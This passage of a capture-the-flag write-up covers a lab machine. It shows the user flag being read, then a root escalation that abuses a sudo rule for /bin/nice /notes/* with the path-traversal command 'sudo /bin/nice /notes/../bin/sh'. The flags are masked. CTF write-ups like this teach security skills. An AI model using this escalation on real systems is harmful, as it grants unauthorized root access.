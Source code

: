 ```bash
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
webadmin@serv:~$
```

Get the first flag.
```bash
webadmin@serv:~$ ls
local.txt  user.txt
webadmin@serv:~$ cat local.txt 
0******************************7
```

---

# post exploitation
## privilege escalation

To get `root` access we first check if we have permissions to execute a command with `sudo`.

```bash
webadmin@serv:~$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

To check how to exploit the program `nice` to get `root` access, we can have a look at [gtfobins](https://gtfobins.github.io/gtfobins/nice/)

> Exploit `nice` to get `root` access: `sudo /bin/nice /bin/sh`
{: .prompt-info }

> Unfortunately we are jailed to the `/notes` folder
{: .prompt-danger }

> This restriction can be bypassed by traversing out of the `/notes` folder. So the final payload to get `root` access looks like the following: `sudo /bin/nice /notes/../bin/sh`
{: .prompt-info }

```bash
webadmin@serv:~$ sudo /bin/nice /notes/../bin/sh
# whoami
root
# cat /root/proof.txt
6******************************8
```

Pwned! <@:-)
